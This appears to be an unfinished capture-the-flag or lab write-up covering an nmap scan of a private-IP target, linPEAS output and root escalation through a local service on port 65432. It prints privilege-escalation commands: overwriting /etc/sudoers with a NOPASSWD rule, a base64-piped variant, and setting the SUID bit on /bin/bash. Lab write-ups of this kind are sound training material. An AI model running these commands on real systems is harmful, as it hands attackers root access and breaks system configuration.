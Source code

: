 #Pwned! 
```IP
192.168.133.210
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.133.210 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)            
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFR/u8yZrrxkDWw/8gy/fNFksvT+QIL8O/6eD8zVxwKwgBURa9uRtOC8Dk6P+ktLwXJ9oSUitZeXVWjijbehpZBVHvywEOj9nc0bmk0+M/DGGbr1etS7cDvRzRATUtMPxQfYhzXqHlZe6Q2GfA0c75uybUXxOha8CTdK0Iv/maUUaiaPv3LGebQ4CpNaXNQfYVp
CdsxLn5MxFi+tfenn/4CinBPn1Ahnx499V1G0ANTaKLsEETjqaMd5jnmml2wH1GmKfKf/6FevWv0Q9Ylsi3x/ipkDpcQAMRQ/aw5NuSSDrGTdo0wRuuoEf5Ybenp9haPVxUAPHbEcMI2hdcP5B3Cd03qimMhHEkFXE8sTUxRKHG+hg7cF8On1EXZsH1fsVyrFAAoHRrap5CsubmNXT93EcK7lc65DbKgeqls643x0p/
4WOUiLXFstm6X4JCdEyhvWmnYtL3qDKMuQbCwrCJGeDjoaZTjHXbpjSxSnvtO04RT84x2t8MThyeYO3kSyM=
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)           
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNBWjceIJ9NSOLk8zk68zCychWoLxrcrsuJYy2C1pvpfOhVBrr8QBhYbJxzzGJ7DpuMT/DXiCwuLXdu0zeR4/Dk=
|   256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)         
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG3LJwn9us7wxvkL0E6EEgOPG3P0fa0fRVuJuXeASZvs
8000/tcp open  http-alt syn-ack ttl 61 ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)

```
## HTTP 80
ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)

# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
linux exploits
pwnkit not working
[CVE-2021-3156] sudo Baron Samedit
[CVE-2021-3156] sudo Baron Samedit 2

active ports
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp        0      0 127.0.0.1:65432         0.0.0.0:*               LISTEN      -                                    
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN                                
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
.sh files in path
```
/usr/bin/gettext.sh                                                                     
/usr/bin/rescan-scsi-bus.sh
```

Searching for port 65432 we get an exploit.
Modifying the payload to ping our attacking machine will succeed. We will se some hexadecimal output nonetheless. 

```
ping -c 5 192.168.45.194
```
Unfortunately, the following payload to add our user to sudo will fail
```
echo “user ALL=(root) NOPASSWD: ALL” > /etc/sudoers
```
```
echo “user ALL=(root) NOPASSWD: ALL” > /etc/sudoers
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241201175406.png?raw=true)
encoding our payload in base64 doesnt work either
```
echo 'ZWNobyDigJx1c2VyIEFMTD0ocm9vdCkgTk9QQVNTV0Q6IEFMTOKAnSA+IC9ldGMvc3Vkb2Vycwo=' | base64 -d | bash
```
the following payload works fine:
```
chmod u+s /bin/bash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241201180145.png?raw=true)
### Mimikatz

# Lateral Movement

